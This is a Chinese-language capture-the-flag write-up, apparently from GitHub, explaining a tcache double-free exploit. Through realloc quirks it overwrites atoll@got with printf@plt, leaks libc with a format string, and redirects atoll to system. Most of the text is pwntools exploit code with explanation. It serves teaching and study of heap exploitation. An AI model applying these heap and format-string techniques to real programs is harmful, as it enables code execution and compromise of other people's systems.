 再來是把 atoll@got 改成 printf@plt 的部分
```python
# Double free attack
writehere = atoll_got
allocate(1, 0x10, b'a'*0x10) # heap[1] = malloc(0x10)
reallocate(1, 0) # free(heap[1])
rfree(1) # free(heap[1]), heap[1] = 0
```
以上部分稍作解釋：
- 首先 `allocate(1, 0x10, b'a'*0x10)`, 重點是執行了
    - `heap[1] = realloc(NULL, 0x10)`
        因為 `oldmem == NULL` 所以實際上是等同呼叫 `malloc(0x10)`，返回 size 0x20 chunk
- `reallocate(1, 0)`，重點是執行了
    - `ptr = realloc(heap[1], 0);`
        因為 `oldmem != NULL && bytes == 0` 所以實際上等同呼叫 `free(heap[1])` 造成 dangling pointer
- `rfree(1)`，重點是執行了
    - `realloc(heap[1], 0);`
        跟上面理由一樣, 等同呼叫 `free(heap[1])` 造成 Tcache double free
    - `heap[1] = NULL `
        此時 heap[1] 才終於被清除, 但 double free 已成形

```python
allocate(0, 0x10, p64(writehere).ljust(0x10, b'\x87')) # heap[0] = malloc(0x10)
rfree(1) # malloc(0), garbage
payload = p64(printf_plt)
allocate(1, 0x10, payload[:0x7]) # heap[1] = malloc(0x10), arbitrary write
```
- 申請走第一個 0x20 Tcache bin
    - 此時這塊 chunk 處於 Used 和 Free 之間
    - 隨後往之寫入 atoll@got 的位址, 覆蓋掉 fd, 控制 0x20 Tcache chain
        - 原本的 chain 長這樣
            - 躺在heap的正常 chunk -> 躺在heap的正常 chunk **(double free)**
        - 後來變成
            - 躺在heap的正常 chunk -> **atoll@got** -> \?\?\?\?\?
- `rfree(1)` 重點是執行了 `realloc(heap[1], 0)`
    - 但 `heap[1]` 已清空, 所以符合 `oldmem == NULL`
        - 所以實際上是執行 `malloc(0)`, 申請 size 0x20 的 chunk
        - 原本的 chain 長成這樣
            - 躺在heap的正常 chunk -> **atoll@got** -> \?\?\?\?\?
        - 後來變成
            - **atoll@got** -> \?\?\?\?\?
- 下次再 allocate 一塊 0x20 的 chunk 就會拿到以 **atoll@got** 最為資料頭的 chunk
- 如此就能改寫 **atoll@got** 囉

再來是 leak libc 的部分
```python
# Leak libc
rfree('%7$p')
libc.address = int(p.recvuntil('\n', drop=True), 16) - libc.symbols['_IO_2_1_stdout_']
print('libc: {:#x}'.format(libc.address))
```
注意現在 `atoll` 已經變成 `printf`, 所以多一個 Format string vuln 可以打ㄌ

leak 出來 libc 後, 再來就是再度改寫 `atoll` 的部分
```python
# Double free attack again with Format string attack
reallocate('\0', '%95x', '\0') # heap[0] = realloc(heap[0], 0x60)
reallocate('\0', '\0') # free(heap[0])
rfree('\0') # free(heap[0]), heap[0] = 0
allocate('\0', '%95x', p64(writehere) + b'\0') # heap[0] = malloc(0x60)
rfree(b'%9$nxxxx' + p64(0x4040d0), isBytes=True) # Clear heap[0] by fmt str attack
allocate('\0', '%95x', p64(writehere) + b'\0') # heap[0] = malloc(0x60), garbage
rfree(b'%9$nxxxx' + p64(0x4040d0), isBytes=True) # Clear heap[0] by fmt str attack
payload = p64(libc.symbols['system'])
allocate('\0', '%95x', payload[:0x7]) # heap[0] = malloc(0x60), arbitrary write
```